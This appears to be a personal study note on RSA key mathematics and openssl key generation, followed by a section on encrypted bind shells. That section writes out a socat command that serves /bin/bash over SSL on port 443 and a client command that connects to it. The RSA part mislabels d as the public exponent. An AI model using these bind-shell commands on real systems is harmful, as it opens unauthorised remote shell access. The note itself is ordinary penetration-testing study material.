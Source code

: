 #### Asymmetric Encryption Mathematics

RSA got its name from its inventors, Rivest, Shamir, and Adleman

Prime Factorisation:

```bash
x * y = z # z being the unqiue product of two prime numbers, so for:
primes={p,q}
product=n

# Using n as base:
# Perform additional maths to output two special numbers e and d 
# !! such that their properties are relative to n
# Public key as a:
tuple(n,e)
# Private key as a: 
tuple(n,d)

# THM - to see real values for p and q:
# Generate a RSA
openssl genrsa -out private-key.pem 2048
# Using RSA make public key from private key
openssl rsa -in private-key.pem -pubout -out public-key.pem
# For the values of:
# p, q, n, e, d := prime1, prime2, modulus, publicExponent, publicExponent
# in the following command
openssl rsa -in private-key.pem -text -noout
```

#### Asymmetric Encrypted Bind Shells

Encrypted communication rely on the Secure Sockets Layer(SSL)

```bash
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 30 -out bind_shell.crt

# req = create a new certificate
# -newkey generate a new private key
# rsa:2048 defines the encryption algorithm we want to use. This is similar to the --cipher-algo flag used by gpg. In this case, we're using the RSA algorithm with a 2048-bit key length.
# -nodes create the private key without a passphrase
# -key save the generated private key to an output file in Base64 format.
# -x509 ensures that our certificate is self-signed; an  alternative is to use an existing certificate authority
# -days certificate is valid for
# -out saves the certificate to file, also in Base64 format
# This creates a bind_shell.crt(certificate) and bind_shell.key(private key)

socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin//bash

# Host certificate with socat 

socat - OPENSSL:$IP:$PORT,verify=0 <cmd>
```
